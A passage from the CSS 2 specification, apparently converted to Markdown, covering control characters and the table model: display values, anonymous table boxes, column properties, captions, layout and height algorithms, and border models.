```
A  BC
```

Note that there are two spaces between A and B, and none between B and C. This can sometimes be avoided by using the natural bidirectionality of characters instead of explicit embedding levels. Also, it is good to avoid spaces immediately inside start and end tags, as these tend to do weird things when dealing with white space collapsing.

##### 16.6.3. Control and combining characters' details {#css2:ctrlchars}

Control characters other than U+0009 (tab), U+000A (line feed), U+0020 (space), and U+202x (bidi formatting characters) are treated as characters to render in the same way as any normal character.

Combining characters should be treated as part of the character with which they are supposed to combine. For example, :first-letter styles the entire glyph if you have content like "`o<span>&#x308;</span>`"; it does not just match the base character.

### 17. Tables {#css2:tables}

#### 17.1. Introduction to tables {#css2:tables-intro}

This chapter defines the processing model for tables in CSS. Part of this processing model is the layout. For the layout, this chapter introduces two algorithms; the first, the fixed table layout algorithm, is well-defined, but the second, the automatic table layout algorithm, is not fully defined by this specification.

For the automatic table layout algorithm, some widely deployed implementations have achieved relatively close interoperability.

**Table** layout can be used to represent tabular relationships between data. Authors specify these relationships in the document language and can specify their *presentation* using CSS 2.

In a visual medium, CSS tables can also be used to achieve specific layouts. In this case, authors should not use table-related elements in the document language, but should apply the CSS to the relevant structural elements to achieve the desired layout.

Authors may specify the visual formatting of a table as a rectangular grid of cells. Rows and columns of cells may be organized into row groups and column groups. Rows, columns, row groups, column groups, and cells may have borders drawn around them (there are two border models in CSS 2). Authors may align data vertically or horizontally within a cell and align data in all cells of a row or column.

> **Example:** Here is a simple three-row, three-column table described in HTML 4:
>
> ```html
> <TABLE>
> <CAPTION>This is a simple 3x3 table</CAPTION>
> <TR id="row1">
>    <TH>Header 1  <TD>Cell 1  <TD>Cell 2
> <TR id="row2">
>    <TH>Header 2  <TD>Cell 3  <TD>Cell 4
> <TR id="row3">
>    <TH>Header 3  <TD>Cell 5  <TD>Cell 6
> </TABLE>
> ```
>
> This code creates one table (the TABLE element), three rows (the TR elements), three header cells (the TH elements), and six data cells (the TD elements). Note that the three columns of this example are specified implicitly: there are as many columns in the table as required by header and data cells.
>
> The following CSS rule centers the text horizontally in the header cells and presents the text in the header cells with a bold font weight:
>
> ```css
> th { text-align: center; font-weight: bold }
> ```
>
> The next rules align the text of the header cells on their baseline and vertically center the text in each data cell:
>
> ```css
> th { vertical-align: baseline }
> td { vertical-align: middle }
> ```
>
> The next rules specify that the top row will be surrounded by a 3px solid blue border and each of the other rows will be surrounded by a 1px solid black border:
>
> ```css
> table   { border-collapse: collapse }
> tr#row1 { border: 3px solid blue }
> tr#row2 { border: 1px solid black }
> tr#row3 { border: 1px solid black }
> ```
>
> Note, however, that the borders around the rows overlap where the rows meet. What color (black or blue) and thickness (1px or 3px) will the border between row1 and row2 be? We discuss this in the section on [border conflict resolution.](#css2:border-conflict-resolution)
>
> The following rule puts the table caption above the table:
>
> ```css
> caption { caption-side: top }
> ```

The preceding example shows how CSS works with HTML 4 elements; in HTML 4, the semantics of the various table elements (TABLE, CAPTION, THEAD, TBODY, TFOOT, COL, COLGROUP, TH, and TD) are well-defined. In other document languages (such as XML applications), there may not be pre-defined table elements. Therefore, CSS 2 allows authors to "map" document language elements to table elements via the `display` property. For example, the following rule makes the FOO element act like an HTML TABLE element and the BAR element act like a CAPTION element:

```css
FOO { display : table }
BAR { display : table-caption }
```

We discuss the various table elements in the following section. In this specification, the term **table element** refers to any element involved in the creation of a table. An **internal table element** is one that produces a row, row group, column, column group, or cell.

#### 17.2. The CSS table model {#css2:table-display}

The CSS table model is based on the HTML4 table model, in which the structure of a table closely parallels the visual layout of the table. In this model, a table consists of an optional caption and any number of rows of cells. The table model is said to be "row primary" since authors specify rows, not columns, explicitly in the document language. Columns are derived once all the rows have been specified -- the first cell of each row belongs to the first column, the second to the second column, etc.). Rows and columns may be grouped structurally and this grouping reflected in presentation (e.g., a border may be drawn around a group of rows).

Thus, the table model consists of tables, captions, rows, **row groups** (including header groups and footer groups), columns, column groups, and cells.

The CSS model does not require that the document language include elements that correspond to each of these components. For document languages (such as XML applications) that do not have pre-defined table elements, authors must **map document language elements to table elements**; this is done with the `display` property. The following `display` values assign table formatting rules to an arbitrary element:

**`table` (In HTML: TABLE)**

: Specifies that an element defines a block-level table: it is a rectangular block that participates in a [block formatting context](#css2:block-formatting).

**`inline-table` (In HTML: TABLE)**

: Specifies that an element defines an inline-level table: it is a rectangular block that participates in an [inline formatting context](#css2:inline-formatting)).

**`table-row` (In HTML: TR)**

: Specifies that an element is a row of cells.

**`table-row-group` (In HTML: TBODY)**

: Specifies that an element groups one or more rows.

**`table-header-group` (In HTML: THEAD)**

: Like `table-row-group`, but for visual formatting, the row group is always displayed before all other rows and row groups and after any top captions. Print user agents may repeat header rows on each page spanned by a table. If a table contains multiple elements with 'display: table-header-group', only the first is rendered as a header; the others are treated as if they had 'display: table-row-group'.

**`table-footer-group` (In HTML: TFOOT)**

: Like `table-row-group`, but for visual formatting, the row group is always displayed after all other rows and row groups and before any bottom captions. Print user agents may repeat footer rows on each page spanned by a table. If a table contains multiple elements with 'display: table-footer-group', only the first is rendered as a footer; the others are treated as if they had 'display: table-row-group'.

**`table-column` (In HTML: COL)**

: Specifies that an element describes a column of cells.

**`table-column-group` (In HTML: COLGROUP)**

: Specifies that an element groups one or more columns.

**`table-cell` (In HTML: TD, TH)**

: Specifies that an element represents a table cell.

**`table-caption` (In HTML: CAPTION)**

: Specifies a caption for the table. All elements with 'display: table-caption' must be rendered, as described in [section 17.4.](#css2:model)

Replaced elements with these `display` values are treated as their given display types during layout. For example, an image that is set to 'display: table-cell' will fill the available cell space, and its dimensions might contribute towards the table sizing algorithms, as with an ordinary cell.

Elements with `display` set to `table-column` or `table-column-group` are not rendered (exactly as if they had 'display: none'), but they are useful, because they may have attributes which induce a certain style for the columns they represent.

The [default style sheet for HTML4](#css2:html-stylesheet) in the appendix illustrates the use of these values for HTML4:

```css
table    { display: table }
tr       { display: table-row }
thead    { display: table-header-group }
tbody    { display: table-row-group }
tfoot    { display: table-footer-group }
col      { display: table-column }
colgroup { display: table-column-group }
td, th   { display: table-cell }
caption  { display: table-caption }
```

User agents may [ignore](#css2:ignore) these `display` property values for HTML table elements, since HTML tables may be rendered using other algorithms intended for backwards compatible rendering. However, this is not meant to discourage the use of 'display: table' on other, non-table elements in HTML.

##### 17.2.1. Anonymous table objects {#css2:anonymous-boxes}

Document languages other than HTML may not contain all the elements in the CSS 2 table model. In these cases, the "missing" elements must be assumed in order for the table model to work. Any table element will automatically generate necessary anonymous table objects around itself, consisting of at least three nested objects corresponding to a `table`/`inline-table` element, a `table-row` element, and a `table-cell` element. Missing elements generate anonymous objects (e.g., anonymous boxes in visual table layout) according to the following **rules**:

For the purposes of these rules, the following terms are defined:

****row group box****

: A `table-row-group`, `table-header-group`, or `table-footer-group`

****proper table child****

: A `table-row` box, row group box, `table-column` box, `table-column-group` box, or `table-caption` box.

****proper table row parent****

: A `table` or `inline-table` box or row group box

****internal table box****

: A `table-cell` box, `table-row` box, row group box, `table-column` box, or `table-column-group` box.

****tabular container****

: A `table-row` box or proper table row parent

****consecutive****

: Two sibling boxes are consecutive if they have no intervening siblings other than, optionally, an anonymous inline containing only white spaces. A sequence of sibling boxes is consecutive if each box in the sequence is consecutive to the one before it in the sequence.

For the purposes of these rules, out-of-flow elements are represented as inline elements of zero width and height. Their containing blocks are chosen accordingly.

The following steps are performed in three stages.

1. Remove irrelevant boxes:

  1. All child boxes of a `table-column` parent are treated as if they had 'display: none'.
  2. If a child *C* of a `table-column-group` parent is not a `table-column` box, then it is treated as if it had 'display: none'.
  3. If a child *C* of a tabular container *P* is an anonymous inline box that contains only white space, and its immediately preceding and following siblings, if any, are proper table descendants of *P* and are either `table-caption` or internal table boxes, then it is treated as if it had 'display: none'. A box *D* is a proper table descendant of *A* if *D* can be a descendant of *A* without causing the generation of any intervening `table` or `inline-table` boxes.
  4. If a box *B* is an anonymous inline containing only white space, and is between two immediate siblings each of which is either an internal table box or a `table-caption` box then *B* is treated as if it had 'display: none'.
2. Generate missing child wrappers:

  1. If a child *C* of a `table` or `inline-table` box is not a proper table child, then generate an anonymous `table-row` box around *C* and all consecutive siblings of *C* that are not proper table children.
  2. If a child *C* of a row group box is not a `table-row` box, then generate an anonymous `table-row` box around *C* and all consecutive siblings of *C* that are not `table-row` boxes.
  3. If a child *C* of a `table-row` box is not a `table-cell`, then generate an anonymous `table-cell` box around *C* and all consecutive siblings of *C* that are not `table-cell` boxes.
3. Generate missing parents:

  1. For each `table-cell` box *C* in a sequence of consecutive internal table and `table-caption` siblings, if *C*’s parent is not a `table-row` then generate an anonymous `table-row` box around *C* and all consecutive siblings of *C* that are `table-cell` boxes.
  2. For each proper table child *C* in a sequence of consecutive proper table children, if *C* is misparented then generate an anonymous `table` or `inline-table` box *T* around *C* and all consecutive siblings of *C* that are proper table children. (If C’s parent is an `inline` box, then *T* must be an `inline-table` box; otherwise it must be a `table` box.)

    - A `table-row` is misparented if its parent is neither a row group box nor a `table` or `inline-table` box.
    - A `table-column` box is misparented if its parent is neither a `table-column-group` box nor a `table` or `inline-table` box.
    - A row group box, `table-column-group` box, or `table-caption` box is misparented if its parent is neither a `table` box nor an `inline-table` box.

> **Example:** In this XML example, a `table` element is assumed to contain the HBOX element:
>
> ```xml
> <HBOX>
>   <VBOX>George</VBOX>
>   <VBOX>4287</VBOX>
>   <VBOX>1998</VBOX>
> </HBOX>
> ```
>
> because the associated style sheet is:
>
> ```css
> HBOX { display: table-row }
> VBOX { display: table-cell }
> ```

> **Example:** In this example, three `table-cell` elements are assumed to contain the text in the ROWs. Note that the text is further encapsulated in anonymous inline boxes, as explained in visual formatting model:
>
> ```xml
> <STACK>
>   <ROW>This is the <D>top</D> row.</ROW>
>   <ROW>This is the <D>middle</D> row.</ROW>
>   <ROW>This is the <D>bottom</D> row.</ROW>
> </STACK>
> ```
>
> The style sheet is:
>
> ```css
> STACK { display: inline-table }
> ROW   { display: table-row }
> D     { display: inline; font-weight: bolder }
> ```

#### 17.3. Columns {#css2:columns}

Table cells may belong to two contexts: rows and columns. However, in the source document cells are descendants of rows, never of columns. Nevertheless, some aspects of cells can be influenced by setting properties on columns.

The following properties apply to column and column-group elements:

**`border`**

: The various border properties apply to columns only if `border-collapse` is set to `collapse` on the table element. In that case, borders set on columns and column groups are input to the [conflict resolution algorithm](#css2:border-conflict-resolution) that selects the border styles at every cell edge.

**`background`**

: The background properties set the background for cells in the column, but only if both the cell and row have transparent backgrounds. See ["Table layers and transparency."](#css2:table-layers)

**`width`**

: The `width` property gives the minimum width for the column.

**`visibility`**

: If the `visibility` of a column is set to `collapse`, none of the cells in the column are rendered, and cells that span into other columns are clipped. In addition, the width of the table is diminished by the width the column would have taken up. See ["Dynamic effects"](#css2:dynamic-effects) below. Other values for `visibility` have no effect.

> **Example:** Here are some examples of style rules that set properties on columns. The first two rules together implement the "rules" attribute of HTML 4 with a value of "cols". The third rule makes the "totals" column blue, the final two rules shows how to make a column a fixed size, by using the [fixed layout algorithm](#css2:fixed-table-layout).
>
> ```css
> col { border-style: none solid }
> table { border-style: hidden }
> col.totals { background: blue }
> table { table-layout: fixed }
> col.totals { width: 5em }
> ```

#### 17.4. Tables in the visual formatting model {#css2:model}

In terms of the visual formatting model, a table can behave like a block-level (for 'display: table') or inline-level (for 'display: inline-table') element.

In both cases, the table generates a principal block box called the **table wrapper box** that contains the table grid box itself and any caption boxes (in document order). The **table grid box** is a block-level box that contains the table’s internal table boxes. The caption boxes are block-level boxes that retain their own content, padding, margin, and border areas, and are rendered as normal block boxes inside the table wrapper box. Whether the caption boxes are placed before or after the table grid box is decided by the `caption-side` property, as described below.

The table wrapper box is a `block` box if the table is block-level, and an `inline-block` box if the table is inline-level. The table wrapper box establishes a block formatting context. The table grid box (not the table wrapper box) is used when doing baseline vertical alignment for an `inline-table`. The width of the table wrapper box is the border-edge width of the table grid box inside it, as described by section 17.5.2. Percentages on `width` and `height` on the table are relative to the table wrapper box’s containing block, not the table wrapper box itself.

The computed values of properties `position`, `float`, `margin-*`, `top`, `right`, `bottom`, and `left` on the table element are used on the table wrapper box and not the table grid box; all other values of non-inheritable properties are used on the table grid box and not the table wrapper box. (Where the table element’s values are not used on the table and table wrapper boxes, the initial values are used instead.)


Diagram of a table with a caption above it.

##### 17.4.1. Caption position and alignment {#css2:caption-position}

| Field | Value |
| --- | --- |
| Name: | **caption-side** |
| [Value:](#css-values-4:value-defs) | top \| bottom \| inherit |
| [Initial:](#css-cascade-6:initial-values) | top |
| [Applies to:](#css-cascade-5:applies-to) | `table-caption` elements |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property specifies the position of the caption box with respect to the table grid box. Values have the following meanings:

****top****

: Positions the caption box above the table grid box.

****bottom****

: Positions the caption box below the table grid box.

> **Note:** ***Note:** CSS2 (1998) described a different width and horizontal alignment behavior. That behavior will be introduced in CSS3 using the values `top-outside` and `bottom-outside` on this property.*

To align caption content horizontally within the caption box, use the `text-align` property.

> **Example:** In this example, the `caption-side` property places captions below tables. The caption will be as wide as the parent of the table, and caption text will be left-justified.
>
> ```css
> caption { caption-side: bottom;
>           width: auto;
>           text-align: left }
> ```

#### 17.5. Visual layout of table contents {#css2:table-layout}

Internal table elements generate rectangular [boxes](#css2:box-dimensions) with content and borders. Cells have padding as well. Internal table elements do not have margins.

The visual layout of these boxes is governed by a rectangular, irregular grid of rows and columns. Each box occupies a whole number of grid cells, determined according to the following rules. These rules do not apply to HTML 4 or earlier HTML versions; HTML imposes its own limitations on row and column spans.

1. Each row box occupies one row of grid cells. Together, the row boxes fill the table from top to bottom in the order they occur in the source document (i.e., the table occupies exactly as many grid rows as there are row elements).
2. A row group occupies the same grid cells as the rows it contains.
3. A column box occupies one or more columns of grid cells. Column boxes are placed next to each other in the order they occur. The first column box may be either on the left or on the right, depending on the value of the `direction` property of the table.
4. A column group box occupies the same grid cells as the columns it contains.
5. Cells may span several rows or columns. (Although CSS 2 does not define how the number of spanned rows or columns is determined, a user agent may have special knowledge about the source document; a future update of CSS may provide a way to express this knowledge in CSS syntax.) Each cell is thus a rectangular box, one or more grid cells wide and high. The top row of this rectangle is in the row specified by the cell’s parent. The rectangle must be as far to the left as possible, but the part of the cell in the first column it occupies must not overlap with any other cell box (i.e., a row-spanning cell starting in a prior row), and the cell must be to the right of all cells in the same row that are earlier in the source document. If this position would cause a column-spanning cell to overlap a row-spanning cell from a prior row, CSS does not define the results: implementations may either overlap the cells (as is done in many HTML implementations) or may shift the later cell to the right to avoid such overlap. (This constraint holds if the `direction` property of the table is `ltr`; if the `direction` is `rtl`, interchange "left" and "right" in the previous two sentences.)
6. A cell box cannot extend beyond the last row box of a table or row group; the user agents must shorten it until it fits.

The edges of the rows, columns, row groups and column groups in the [collapsing borders model](#css2:collapsing-borders) coincide with the hypothetical grid lines on which the borders of the cells are centered. (And thus, in this model, the rows together exactly cover the table, leaving no gaps; ditto for the columns.) In the separated borders model, the edges coincide with the border edges of cells. (And thus, in this model, there may be gaps between the rows, columns, row groups or column groups, corresponding to the `border-spacing` property.)

> **Note:** ***Note.** Positioning and floating of table cells can cause them not to be table cells anymore, according to the rules in [section 9.7](#css2:dis-pos-flo). When floating is used, the rules on anonymous table objects may cause an anonymous cell object to be created as well.*

> **Example:** Here is an example illustrating rule 5. The following illegal (X)HTML snippet defines conflicting cells:
>
> ```xml
> <table>
> <tr><td>1 </td><td rowspan="2">2 </td><td>3 </td><td>4 </td></tr>
> <tr><td colspan="2">5 </td></tr>
> </table>
> ```
>
> User agents are free to visually overlap the cells, as in the figure on the left, or to shift the cell to avoid the visual overlap, as in the figure on the right.
>
> 
>
> Two possible renderings of an erroneous HTML table.

##### 17.5.1. Table layers and transparency {#css2:table-layers}

For the purposes of finding the background of each table cell, the different table elements may be thought of as being on six superimposed layers. The background set on an element in one of the layers will only be visible if the layers above it have a transparent background.


Schema of table layers.

1. The lowest layer is a single plane, representing the table grid box itself. Like all boxes, it may be transparent.
2. The next layer contains the column groups. Each column group extends from the top of the cells in the top row to the bottom of the cells on the bottom row and from the left edge of its leftmost column to the right edge of its rightmost column. The background covers exactly the full area of all cells that originate in the column group, even if they span outside the column group, but this difference in area does not affect background image positioning.
3. On top of the column groups are the areas representing the column boxes. Each column is as tall as the column groups and as wide as a normal (single-column-spanning) cell in the column. The background covers exactly the full area of all cells that originate in the column, even if they span outside the column, but this difference in area does not affect background image positioning.
4. Next is the layer containing the row groups. Each row group extends from the top left corner of its topmost cell in the first column to the bottom right corner of its bottommost cell in the last column.
5. The next to last layer contains the rows. Each row is as wide as the row groups and as tall as a normal (single-row-spanning) cell in the row. As with columns, the background covers exactly the full area of all cells that originate in the row, even if they span outside the row, but this difference in area does not affect background image positioning.
6. The topmost layer contains the cells themselves. As the figure shows, although all rows contain the same number of cells, not every cell may have specified content. In the separated borders model (`border-collapse` is `separate`), if the value of their `empty-cells` property is `hide` these "empty" cells are transparent through the cell, row, row group, column and column group backgrounds, letting the table background show through.

A "missing cell" is a cell in the row/column grid that is not occupied by an element or pseudo-element. Missing cells are rendered as if an anonymous table-cell box occupied their position in the grid.

> **Example:** In the following example, the first row contains four non-empty cells, but the second row contains only one non-empty cell, and thus the table background shines through, except where a cell from the first row spans into this row. The following HTML code and style rules
>
> ```
> <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
> <HTML>
>   <HEAD>
>     <TITLE>Table example</TITLE>
>     <STYLE type="text/css">
>       TABLE  { background: #ff0; border: solid black;
>                empty-cells: hide }
>       TR.top { background: red }
>       TD     { border: solid black }
>     </STYLE>
>   </HEAD>
>   <BODY>
>     <TABLE>
>       <TR CLASS="top">
>         <TD> 1
>         <TD rowspan="2"> 2
>         <TD> 3
>         <TD> 4
>       <TR>
>         <TD> 5
>         <TD>
>     </TABLE>
>   </BODY>
> </HTML>
> ```
>
> might be formatted as follows:
>
> 
>
> Table with empty cells in the bottom row.

Note that if the table has 'border-collapse: separate', the background of the area given by the `border-spacing` property is always the background of the table element. See the separated borders model.

##### 17.5.2. Table width algorithms: the `table-layout` property {#css2:width-layout}

CSS does not define an "optimal" layout for tables since, in many cases, what is optimal is a matter of taste. CSS does define constraints that user agents must respect when laying out a table. User agents may use any algorithm they wish to do so, and are free to prefer rendering speed over precision, except when the "fixed layout algorithm" is selected.

Note that this section overrides the rules that apply to calculating widths as described in [section 10.3](#css2:Computing_widths_and_margins). In particular, if the margins of a table are set to `0` and the width to `auto`, the table will not automatically size to fill its containing block. However, once the calculated value of `width` for the table is found (using the algorithms given below or, when appropriate, some other UA dependent algorithm) then the other parts of section 10.3 do apply. Therefore a table *can* be centered using left and right `auto` margins, for instance.

Future updates of CSS may introduce ways of making tables automatically fit their containing blocks.

| Field | Value |
| --- | --- |
| Name: | **table-layout** |
| [Value:](#css-values-4:value-defs) | auto \| fixed \| inherit |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | `table` and `inline-table` elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

The `table-layout` property controls the algorithm used to lay out the table cells, rows, and columns. Values have the following meaning:

****fixed****

: Use the fixed table layout algorithm

****auto****

: Use any automatic table layout algorithm

The two algorithms are described below.

###### 17.5.2.1. Fixed table layout {#css2:fixed-table-layout}

With this (fast) algorithm, the horizontal layout of the table does not depend on the contents of the cells; it only depends on the table’s width, the width of the columns, and borders or cell spacing.

The table’s width may be specified explicitly with the `width` property. A value of `auto` (for both 'display: table' and 'display: inline-table') means use the [automatic table layout](#css2:auto-table-layout) algorithm. However, if the table is a block-level table ('display: table') in normal flow, a UA may (but does not have to) use the algorithm of [10.3.3](#css2:blockwidth) to compute a width and apply fixed table layout even if the specified width is `auto`.

> **Example:** If a UA supports fixed table layout when `width` is `auto`, the following will create a table that is 4em narrower than its containing block:
>
> ```css
> table { table-layout: fixed;
>         margin-left: 2em;
>         margin-right: 2em }
> ```

In the fixed table layout algorithm, the width of each column is determined as follows:

1. A column element with a value other than `auto` for the `width` property sets the width for that column.
2. Otherwise, a cell in the first row with a value other than `auto` for the `width` property determines the width for that column. If the cell spans more than one column, the width is divided over the columns.
3. Any remaining columns equally divide the remaining horizontal table space (minus borders or cell spacing).

The width of the table is then the greater of the value of the `width` property for the table element and the sum of the column widths (plus cell spacing or borders). If the table is wider than the columns, the extra space should be distributed over the columns.

If a subsequent row has more columns than the greater of the number determined by the table-column elements and the number determined by the first row, then additional columns may not be rendered. CSS 2 does not define the width of the columns and the table if they *are* rendered. When using 'table-layout: fixed', authors should not omit columns from the first row.

In this manner, the user agent can begin to lay out the table once the entire first row has been received. Cells in subsequent rows do not affect column widths. Any cell that has content that overflows uses the `overflow` property to determine whether to clip the overflow content.

###### 17.5.2.2. Automatic table layout {#css2:auto-table-layout}

In this algorithm (which generally requires no more than two passes), the table’s width is given by the width of its columns (and intervening [borders](#css2:borders)). This algorithm reflects the behavior of several popular HTML user agents at the writing of this specification. UAs are not required to implement this algorithm to determine the table layout in the case that `table-layout` is `auto`; they can use any other algorithm even if it results in different behavior.

Input to the automatic table layout must only include the width of the containing block and the content of, and any CSS properties set on, the table and any of its descendants.

> **Note:** ***Note.** This may be defined in more detail in CSS3.*

*The remainder of this section is non-normative.*

This algorithm may be inefficient since it requires the user agent to have access to all the content in the table before determining the final layout and may demand more than one pass.

Column widths are determined as follows:

1. Calculate the minimum content width (MCW) of each cell: the formatted content may span any number of lines but may not overflow the cell box. If the specified `width` (W) of the cell is greater than MCW, the minimum cell width is set to W. A value of `auto` means that MCW is the minimum cell width.

   Also, calculate the "maximum" cell width of each cell: formatting the content without breaking lines other than where explicit line breaks occur.
2. For each column, determine a maximum and minimum column width from the cells that span only that column. The minimum is that required by the cell with the largest minimum cell width (or the column `width`, whichever is larger). The maximum is that required by the cell with the largest maximum cell width (or the column `width`, whichever is larger).
3. For each cell that spans more than one column, increase the minimum widths of the columns it spans so that together, they are at least as wide as the cell. Do the same for the maximum widths. If possible, widen all spanned columns by approximately the same amount.
4. For each column group element with a `width` other than `auto`, increase the minimum widths of the columns it spans, so that together they are at least as wide as the column group’s `width`.

This gives a maximum and minimum width for each column.

The caption width minimum (CAPMIN) is determined by calculating for each caption the minimum caption outer width as the MCW of a hypothetical table cell that contains the caption formatted as "display: block". The greatest of the minimum caption outer widths is CAPMIN.

Column and caption widths influence the final table width as follows:

1. If the `table` or `inline-table` element’s `width` property has a computed value (W) other than `auto`, the used width is the greater of W, CAPMIN, and the minimum width required by all the columns plus cell spacing or borders (MIN). If the used width is greater than MIN, the extra width should be distributed over the columns.
2. If the `table` or `inline-table` element has 'width: auto', the used width is the greater of the table’s containing block width, CAPMIN, and MIN. However, if either CAPMIN or the maximum width required by the columns plus cell spacing or borders (MAX) is less than that of the containing block, use max(MAX, CAPMIN).

A percentage value for a column width is relative to the table width. If the table has 'width: auto', a percentage represents a constraint on the column’s width, which a UA should try to satisfy. (Obviously, this is not always possible: if the column’s width is `110%`, the constraint cannot be satisfied.)

> **Note:** ***Note.** In this algorithm, rows (and row groups) and columns (and column groups) both constrain and are constrained by the dimensions of the cells they contain. Setting the width of a column may indirectly influence the height of a row, and vice versa.*

##### 17.5.3. Table height algorithms {#css2:height-layout}

The height of a table is given by the `height` property for the `table` or `inline-table` element. A value of `auto` means that the height is the sum of the row heights plus any cell spacing or borders. Any other value is treated as a minimum height. CSS 2 does not define how extra space is distributed when the `height` property causes the table to be taller than it otherwise would be.

> **Note:** ***Note.** Future updates of CSS may specify this further.*

The height of a `table-row` element’s box is calculated once the user agent has all the cells in the row available: it is the maximum of the row’s computed `height`, the computed `height` of each cell in the row, and the minimum height (MIN) required by the cells. A `height` value of `auto` for a `table-row` means the row height used for layout is MIN. MIN depends on cell box heights and cell box alignment (much like the calculation of a [line box](#css2:line-height) height). CSS 2 does not define how the height of table cells and table rows is calculated when their height is specified using percentage values. CSS 2 does not define the meaning of `height` on row groups.

In CSS 2, the height of a cell box is the minimum height required by the content. The table cell’s `height` property can influence the height of the row (see above), but it does not increase the height of the cell box.

CSS 2 does not specify how cells that span more than one row affect row height calculations except that the sum of the row heights involved must be great enough to encompass the cell spanning the rows.

The `vertical-align` property of each table cell determines its alignment within the row. Each cell’s content has a baseline, a top, a middle, and a bottom, as does the row itself. In the context of tables, values for `vertical-align` have the following meanings:

****baseline****

: The baseline of the cell is put at the same height as the baseline of the first of the rows it spans (see below for the definition of baselines of cells and rows).

****top****

: The top of the cell box is aligned with the top of the first row it spans.

****bottom****

: The bottom of the cell box is aligned with the bottom of the last row it spans.

****middle****

: The center of the cell is aligned with the center of the rows it spans.

****sub, super, text-top, text-bottom, `<length>`, `<percentage>`****

: These values do not apply to cells; the cell is aligned at the baseline instead.

The baseline of a cell is the baseline of the first in-flow line box in the cell, or the first in-flow table-row in the cell, whichever comes first. If there is no such line box or table-row, the baseline is the bottom of content edge of the cell box. For the purposes of finding a baseline, in-flow boxes with a scrolling mechanisms (see the `overflow` property) must be considered as if scrolled to their origin position. Note that the baseline of a cell may end up below its bottom border, see the [example](#css2:baseline-below) below.

The maximum distance between the top of the cell box and the baseline over all cells that have 'vertical-align: baseline' is used to set the baseline of the row. Here is an example:


Diagram showing the effect of various values of `vertical-align` on table cells.

Cell boxes 1 and 2 are aligned at their baselines. Cell box 2 has the largest height above the baseline, so that determines the baseline of the row.

If a row has no cell box aligned to its baseline, the baseline of that row is the bottom content edge of the lowest cell in the row.

To avoid ambiguous situations, the alignment of cells proceeds in the following order:

1. First the cells that are aligned on their baseline are positioned. This will establish the baseline of the row. Next the cells with 'vertical-align: top' are positioned.
2. The row now has a top, possibly a baseline, and a provisional height, which is the distance from the top to the lowest bottom of the cells positioned so far. (See conditions on the cell padding below.)
3. If any of the remaining cells, those aligned at the bottom or the middle, have a height that is larger than the current height of the row, the height of the row will be increased to the maximum of those cells, by lowering the bottom.
4. Finally the remaining cells are positioned.

Cell boxes that are smaller than the height of the row receive extra top or bottom padding.

> **Example:** The cell in this example has a baseline below its bottom border:
>
> ```
> div { height: 0; overflow: hidden; }
>
> <table>
>  <tr>
>   <td>
>    <div> Test </div>
>   </td>
>  </tr>
> </table>
> ```

##### 17.5.4. Horizontal alignment in a column {#css2:column-alignment}

The horizontal alignment of inline-level content within a cell box can be specified by the value of the `text-align` property on the cell.

##### 17.5.5. Dynamic row and column effects {#css2:dynamic-effects}

The `visibility` property takes the value `collapse` for row, row group, column, and column group elements. This value causes the entire row or column to be removed from the display, and the space normally taken up by the row or column to be made available for other content. Contents of spanned rows and columns that intersect the collapsed column or row are clipped. The suppression of the row or column, however, does not otherwise affect the layout of the table. This allows dynamic effects to remove table rows or columns without forcing a re-layout of the table in order to account for the potential change in column constraints.

#### 17.6. Borders {#css2:borders}

There are two distinct models for setting borders on table cells in CSS. One is most suitable for so-called separated borders around individual cells, the other is suitable for borders that are continuous from one end of the table to the other. Many border styles can be achieved with either model, so it is often a matter of taste which one is used.

| Field | Value |
| --- | --- |
| Name: | **border-collapse** |
| [Value:](#css-values-4:value-defs) | collapse \| separate \| inherit |
| [Initial:](#css-cascade-6:initial-values) | separate |
| [Applies to:](#css-cascade-5:applies-to) | `table` and `inline-table` elements |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property selects a table’s border model. The value **separate** selects the separated borders border model. The value **collapse** selects the collapsing borders model. The models are described below.

##### 17.6.1. The **separated borders model** {#css2:separated-borders}

| Field | Value |
| --- | --- |
| Name: | **border-spacing** |
| [Value:](#css-values-4:value-defs) | `<length>` <length>? \| inherit |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | `table` and `inline-table` elements* |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | two absolute lengths |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

> **Note:** *) Note: user agents may also apply the `border-spacing` property to `frameset` elements. Which elements are `frameset` elements is not defined by this specification and is up to the document language. For example, HTML4 defines a <FRAMESET> element, and XHTML 1.0 defines a <frameset> element. The `border-spacing` property on a `frameset` element can be thus used as a valid substitute for the non-standard `framespacing` attribute.

The lengths specify the distance that separates adjoining cell borders. If one length is specified, it gives both the horizontal and vertical spacing. If two are specified, the first gives the horizontal spacing and the second the vertical spacing. Lengths may not be negative.

The distance between the table border and the borders of the cells on the edge of the table is the table’s padding for that side, plus the relevant border spacing distance. For example, on the right hand side, the distance is *padding-right* + *horizontal border-spacing*.

The width of the table is the distance from the left inner padding edge to the right inner padding edge (including the border spacing but excluding padding and border).

However, in HTML and XHTML1, the width of the <table> element is the distance from the left border edge to the right border edge.

> **Note:** **Note:** In CSS3 this peculiar requirement will be defined in terms of UA style sheet rules and the `box-sizing` property.

In this model, each cell has an individual border. The `border-spacing` property specifies the distance between the borders of adjoining cells. In this space, the row, column, row group, and column group backgrounds are invisible, allowing the table background to show through. Rows, columns, row groups, and column groups cannot have borders (i.e., user agents must [ignore](#css2:ignore) the border properties for those elements).

